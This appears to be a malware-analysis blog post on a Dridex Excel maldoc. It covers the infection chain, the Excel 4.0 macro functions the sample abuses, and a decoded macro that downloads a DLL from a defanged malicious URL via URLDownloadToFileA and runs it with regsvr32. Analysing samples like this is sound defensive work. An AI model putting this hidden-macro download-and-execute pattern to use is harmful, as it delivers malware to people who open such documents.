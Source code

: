 ```yaml
---
layout: post
title: Dridex crimeware/malware
---
```


| Malware | APT |
|-------|--------|
| [Dridex](https://malpedia.caad.fkie.fraunhofer.de/details/win.dridex) | [Indrik Spider](https://malpedia.caad.fkie.fraunhofer.de/actor/indrik_spider) , Evil Corp|

## Dridex
An evasive, information-stealing malware variant; its goal is to acquire as many credentials as possible and return them via an encrypted tunnel to a Command-and-Control (C&C) server. These C&C servers are numerous and scattered all over the Internet, if the malware cannot reach one server it will try another. For this reason, network-based measures such as blocking the C&C IPs is effective only in the short-term. -- OxCERT


### History 
[Treasury Sanctions Evil Corp, the Russia-Based Cybercriminal Group Behind Dridex Malware](https://home.treasury.gov/news/press-releases/sm845)
```As of 2015, Yakubets maintained control of the Dridex malware```

 * First dridex apeard on the chart was back in 2014 June
 * moving on it started creating its army of botnets(mid 2014- mid 2015)
 * botnet was taken down by USA in late 2015
 * it resurfaced again in 2016 and assembelled more that 30 botnets.
 * By the mid of july 2017 dridex started ransomware infection, likes of [Bitpaymer](https://malpedia.caad.fkie.fraunhofer.de/details/win.friedex), [DoppelPaymer](https://malpedia.caad.fkie.fraunhofer.de/details/win.doppelpaymer), [WastedLocker](https://malpedia.caad.fkie.fraunhofer.de/details/win.wastedlocker)

funfact: botnets are named after there botnet IDs like 10111, 40200, 40300 etc


### Mechanism

Malspam(email)--> Maldoc(excel/word)+macro --> VBA macro --> powershell script --> payload download --> payload execution

Mostly the Maldoc are excel documents and the urls are obfuscated as cell contents. then VBA function de-obfuscate the sheet and downlaod the payload either using powershell or Windows API, moslty powershell.

## Sample used : f06910daadc7c66c8e9064d0719ed6727d69c1f04ab13566cadbb6e7a9f52a7e maldoc: thanks to abuse.ch

## Initial Access :
###    Phishing:
        Spearphish Attachment : compressed macros docs, Pdfs, Js, Jar, etc
        Spearphish Link : link to above compressed files (Mostly Compromised and public Cloud storage are used)


## Execution:
###    Command and Scripting Interpreter:
        Macro
        Powershell
        
### Use olevba3 to extract the macrosheet or use openpyxl to get the cell contents.

This sample is using XML macrosheets which is still(for 30 years if i am not wrong) there to support backward compatibility.Now VBA macros are used instead of macrosheets.
Execution is from left to right AND top to bottom cell in xls macrosheet
All sheets are hidden, 

Sheets are heaviliy ofuscated.

Code to get cell contents:

`import openpyxl
book = openpyxl.load_workbook('binary.xlsm')
for w in book.worksheets:
   s = book.get_sheet_by_name(w.title)
   for r in s.rows:
       for c in r:
         if c.value != None:
           print c,c.value`
 


FORMULA.FILL : to put data or formula to the cell.
        `FORMULA.FILL('Doc2'!AP94&'Doc1'!AW54&'Doc1'!AY54&'Doc1'!AV68&'Doc1'!AX68&'Doc1'!AZ68&".html",'Doc1'!AM23)`
Workbook.hide : it will hide the sheets 
        `WORKBOOK.HIDE("Doc1",1)`
SET.VALUE: to set value of cell
        `SET.VALUE(AM19,AV39&'Doc1'!AV40&'Doc1'!AV41&'Doc1'!AV42&'Doc1'!AV43)`
CALL : In Macrosheet you can call functions from the cell :)
Even you can call the DLL fucntion using CALL function. (urlmon.urldownloadtofile())
        `CALL('Doc1'!AM19&"n",'Doc1'!AM20&"A",'Doc1'!AM30,'Doc2'!AR84,'Doc1'!AM23,'Doc1'!AO15&".dll",0,0)`
EXEC : it will execute the code provided as argument.
        `EXEC(AM34&AO15)`
& : it will just concat the strings.


Demo sequence:

        decode the call urls
        decode the call function
        run the downlaoded dll.

        `<Cell u'Doc1'.AO20> =EXEC(**AM34**&**AO15**) = **regsvr32 -s ..\ghnrope**
        AM34 = SET.VALUE(AM34,AO73)
            AO73 = <Cell u'Doc1'.AO73> =**"regsvr32 -s "**    
        <Cell u'Doc1'.AO15> =**"..\ghnrope"**
        CALL('Doc1'!AM19&"n",'Doc1'!AM20&"A",'Doc1'!AM30,'Doc2'!AR84,'Doc1'!AM23,'Doc1'!AO15&".dll",0,0)
        AM19 = SET.VALUE(AM19,AV39&'Doc1'!AV40&'Doc1'!AV41&'Doc1'!AV42&'Doc1'!AV43) = URLMo
                <Cell u'Doc1'.AV39> =CHAR(85)
                <Cell u'Doc1'.AV40> R
                <Cell u'Doc1'.AV41> L
                <Cell u'Doc1'.AV42> M
                <Cell u'Doc1'.AV43> o
       AM20=SET.VALUE(AM20,'Doc2'!AQ74&'Doc2'!AQ75&'Doc2'!AQ76&'Doc2'!AQ77&'Doc2'!AQ78&'Doc2'!AQ79&'Doc2'!AQ80&'Doc2'!AQ81&'Doc2'!AQ82&'Doc2'!AQ83&'Doc2'!AQ84&'Doc2'!AQ85&'Doc2'!AQ86&'Doc2'!AQ87&'Doc2'!AQ88&'Doc2'!AQ89&'Doc2'!AQ90)
       Similarl as above : URLDownloadToFile
      AM30 =  SET.VALUE(AM30,'Doc2'!AR74&'Doc2'!AR75&'Doc2'!AR76&'Doc2'!AR77&'Doc2'!AR78&'Doc2'!AR79)
        AM30= JJCCBB
      AR84 = 0
      AM23 =FORMULA.FILL('Doc2'!AP94&'Doc1'!AW54&'Doc1'!AY54&'Doc1'!AV68&'Doc1'!AX68&'Doc1'!AZ68&".html",'Doc1'!AM23)
        http[:]//runolfsson-jayde07s.ru.com/ind[.]html
        AO15 = ..\ghnrope`
   
   CALL("URLMo"&"n","URLDownloadToFile"&"A",JJCCBB,0,"http[:]//runolfsson-jayde07s.ru.com/ind[.]html","..\ghnrope"&".dll")`
   
`more reading https://superuser.com/questions/1253212/what-is-macro-worksheet-in-excel 

